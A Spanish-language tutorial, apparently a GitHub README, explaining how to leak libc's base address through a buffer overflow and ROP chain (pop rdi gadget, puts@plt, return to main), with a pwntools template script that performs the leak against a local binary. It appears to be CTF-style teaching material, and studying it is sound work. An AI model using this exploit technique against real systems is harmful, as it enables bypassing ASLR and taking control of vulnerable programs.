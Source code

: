 ## Pasos para filtrar la dirección base de libc:

### Identificación de direcciones clave:

`__libc_start_main`: Es un símbolo importante en libc que suele utilizarse como referencia para calcular la base de la librería. Se encuentra en las secciones de símbolos del binario objetivo.

`puts`: Una función de la biblioteca estándar que imprime cadenas. Su entrada en la PLT (Procedure Linkage Table) permite llamar a esta función, útil para imprimir direcciones de memoria.

`main`: Se utiliza para regresar al flujo normal del programa tras el leak, permitiendo continuar con la explotación.


### Construcción del payload:

El payload incluye:

* Un desbordamiento controlado para sobrescribir el puntero de retorno del stack(RSP).

* La dirección del gadget `pop rdi; ret` para controlar el registro RDI (donde se pasa el argumento de la función `puts`).

* La dirección de `__libc_start_main` como argumento para `puts`, lo que permite imprimir su dirección actual en memoria.

* Una redirección a la función `main` para reiniciar el programa después del leak.




### Ejecución del payload:

Envía el payload al binario a través de la entrada del programa vulnerable (probablemente un buffer de entrada que no valida su tamaño).

Esto provoca un desbordamiento de búfer que sobrescribe el retorno de la función y redirige el flujo de ejecución al gadget `pop rdi; ret`, seguido de una llamada a `puts`.



### Obtención del leak:

La función `puts` imprime la dirección de `__libc_start_main` directamente en la salida estándar.

El script captura esta salida utilizando `io.recvline()` y la convierte a un número de 64 bits con `u64`.


### Cálculo de la dirección base de libc:

Resta el offset conocido de `__libc_start_main` dentro de `libc` (obtenido del archivo libc.so.6) a la dirección filtrada. Esto da como resultado la **dirección base de libc**.
```python
#leaked_libc_address.py
from pwn import *


def leak_libc_addr(io, elf, libc, rop):
    
    POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0]
    LIBC = elf.symbols["__libc_start_main"]
    MAIN = elf.symbols["main"]
    PUTS = elf.plt["puts"]
    
    log.info("pop rdi -> %s" % hex(POP_RDI))
    log.info("libc -> %s" % hex(LIBC))
    log.info("main -> %s" % hex(MAIN))
    log.info("puts -> %s" % hex(PUTS))
    
    offset = #Write the offset
    
    payload = b"A"*offset
    payload += p64(POP_RDI)
    payload += p64(LIBC)
    payload += p64(PUTS)
    payload += p64(MAIN)
    
    io.recvuntil("") #Recive data string to send payload on buffer overflow
    io.sendline(payload)
    
    #Change this line salts to leaked libc address(+ or -)
    io.recvline()
    io.recvline()
    
    leaked_libc = io.recvline().strip()
    leaked_libc = u64(leaked_libc.ljust(8, b"\x00"))
    
    log.info("leaked_libc_address -> %s" % hex(leaked_libc))
    
    return leaked_libc
    
if __name__ == '__main__':
    
    binary = './binary'
    io = process(binary)
    
    elf = ELF(binary)
    libc = ELF('./libc.so.6')#example
    rop = ROP(elf)
    
    leaked_libc_addr = leak_libc_addr(io, elf, libc, rop)
    
    real_libc_addr = leaked_libc_addr - libc.sym["__libc_start_main"]
    
    log.info("real_libc_address -> %s" % hex(real_libc_addr))
```
